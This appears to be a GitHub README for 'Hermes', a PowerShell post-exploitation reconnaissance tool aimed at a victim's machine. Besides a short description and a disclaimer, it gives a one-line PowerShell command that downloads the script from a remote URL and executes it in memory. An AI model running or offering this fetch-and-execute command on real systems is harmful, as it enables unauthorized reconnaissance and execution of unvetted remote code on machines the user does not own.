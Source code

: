 # Hermes by Luvic95

## **About**

The hermes tool is a post exploitation (PowerShell) red-team tool that can be used for recon on the victim's machine.

## How to use

You can use the tool locally or run it remotely using the follow command:

iex (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Luvic95/Hermes/master/Hermes.ps1")

<b> Running it remotely will grant you the latest version of the script </b>

## Help

Enter "Help" to show all availble options.

Have fun & do good.

Luvic. 

## Disclamer

The creator of the script will not be held reponsible or accountable for any illicit use of the tool.
Use your own personal judgement and laws of your country before running it on any machine.
